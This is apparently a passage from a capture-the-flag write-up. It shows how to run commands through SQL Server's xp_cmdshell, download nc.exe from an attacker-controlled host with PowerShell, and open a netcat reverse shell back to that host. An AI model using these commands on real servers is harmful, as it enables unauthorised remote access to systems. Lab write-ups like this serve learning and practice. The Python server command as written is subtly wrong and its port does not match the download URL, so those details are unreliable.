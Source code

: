 Now we can execute shell commands like this;

```
xp_cmdshell "whoami"

output              
-----------------   
archetype\sql_svc   

NULL        

```

## Next step is a stable interactive shell ##


This is a good article with methods

https://pentesting.academy/p/how-to-get-a-xp-cmdshell-reverse-shell-in-a-windows-server-a9696041a785

### We need to install nc.exe ###

- Here first we have to download nc.exe on our ==local== system, which can be downloaded from the link: [https://github.com/int0x33/nc.exe/blob/master/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
- After downloading let’s set up a python server on our machine in order to send the file to the target system.

### Open a python3 server ###

python3 http.server 80


The next step is put the nc.exe on the target machine

```
xp_cmdshell "powershell.exe wget http://10.10.16.3:8000/nc.exe -OutFile c:\\Users\Public\\nc.exe"

/*  
we don't need the rest of the command because :  
. we already are connected to sql  
. we already logged in using correct credentials  
*/
```

Now, lets listen on nc

```
nc -nlvp 4444
```

Now on the target machine lets execute the file that we transfered in the targeted machine

```
xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe 10.10.16.3 4444"
```

